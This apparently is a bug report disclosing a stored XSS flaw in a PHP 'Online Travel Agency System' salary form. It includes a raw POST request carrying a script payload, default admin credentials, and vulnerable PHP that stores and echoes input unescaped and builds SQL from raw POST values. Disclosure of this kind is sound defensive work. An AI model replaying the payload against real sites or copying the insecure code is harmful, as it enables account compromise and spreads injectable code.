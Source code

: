 # [Online Travel Agency System-File upload vulnerabilities-insert.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** `http://10.151.222.198/Travel/admin/insert.php`

**[Vulnerability Location]:** /Travel/admin/insert.php

**[Vulnerability Test]:**

1. View http://10.151.222.198/Travel/admin/salary1.php, Insert the XSS payload in **"Description"**.

   ![](../../img/20230428180338.png)

2. After clicking the submit button, the update is successful and the XSS payload is successfully stored in the database.

   ```bash
   POST /Travel/admin/insert.php HTTP/1.1
   Host: 10.151.222.198
   Content-Length: 106
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.151.222.198
   Content-Type: application/x-www-form-urlencoded
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.151.222.198/Travel/admin/salary1.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=86dm5d6ncj5mk3db07gti39pb4
   Connection: close
   
   employee=Haqdost&month=jan&amount=55&description=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&salaryform=submit
   ```

3. Visit `http://10.151.222.198/Travel/admin/salary_view_all.php`, and a pop-up window appears.

   ![](../../img/20230428180424.png)

   ![](../../img/20230428180502.png)

**[code analysis]:**

/Travel/admin/insert.php

```php
<?php //insertion in salary form

if(isset($_POST["salaryform"]))
{
	
	$employee=$_POST["employee"];
  $month=$_POST["month"];
  $amount=$_POST["amount"];
  $description=$_POST["description"];
 $sql="insert into salary(employee,month,amount,description,inserted_by)values('$employee','$month','$amount','$description','$user')";
 $result=mysqli_query($con,$sql) or die(mysqli_error($con));
 
 $salary_id=getMaxID('salary_id','salary');

 insertCash($amount,"Cr",$description);
 
 $maxCashID=getMaxID('cashID','cash');
 mysqli_query($con,"INSERT INTO transaction(cashID,salaryID) VALUES ('$maxCashID', '$salary_id')" ) or die("Error in salary Query :: ".mysqli_error($con));
 
 if($result)
	{ echo"data is inserted successfully";
	header('location:salary_view_all.php');
	}
	else
	{ echo "error occured";
	}
 
}
?>
```

When the **description** parameter value in the POST is obtained, it is stored in the database without any filtering, resulting in stored XSS.

/Travel/admin/salary_view_all.php

```php+HTML
 <?php 
  $sql="select*from salary";
  $result=mysqli_query($con,$sql) or die(mysqli_error($con));
  if(mysqli_num_rows($result)<1)
  {
	  echo"<script type='text/javascript'>alert('No Salary found');
	  document.location='employee_view.php'</script>";
	 
  }
  while($row=mysqli_fetch_array($result))
  {
	  $salary_id=$row["salary_id"];	 	 	 	 	 	 		 
	  $month=$row["month"];
 	  $amount=$row["amount"];
 	  $description=$row["description"];
	   $employee=$row["employee"];
	    $date=$row["date"];
	    $inserted_by=$row["inserted_by"];
	 
	 
  ?>

<td><?php       echo $description; ?></td>
```

And the output is made in the page.